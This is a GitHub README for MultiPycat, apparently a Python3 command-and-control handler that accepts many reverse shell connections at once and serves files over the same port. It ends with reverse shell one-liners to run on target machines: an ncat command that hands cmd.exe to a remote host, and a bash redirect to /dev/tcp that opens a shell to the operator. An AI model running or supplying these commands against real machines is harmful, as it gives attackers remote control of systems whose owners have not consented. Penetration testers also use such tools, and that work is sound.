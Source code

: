 # MultiPycat
Multiple reverse shell connections handler written in Python3.

<img src="https://github.com/tomelic/MultiPycat/blob/master/example.png" width="500" height="300">

# Features
* Simultaneously accept multiple reverse shell connections from different devices
* Interacting with connections and going back and forth to the main interface
* Serve files over HTTP through the same port listening for reverse shell connections
* Serve specific files according to user-inputted whitelist
* Simplistically written in Python3
* No external dependencies or libraries

# Usage
Install `python3` or use the executable in the releases section

Run on C2 (Tested on Windows and Linux)
```
python3 MultiPycat.py <LISTENING PORT>
MultiPycat> help
```

Target machine examples
```
# windows
ncat <HOST> <PORT> -e cmd.exe

# linux/ macOS
bash -i >& /dev/tcp/<HOST>/<PORT> 0>&1 &
```
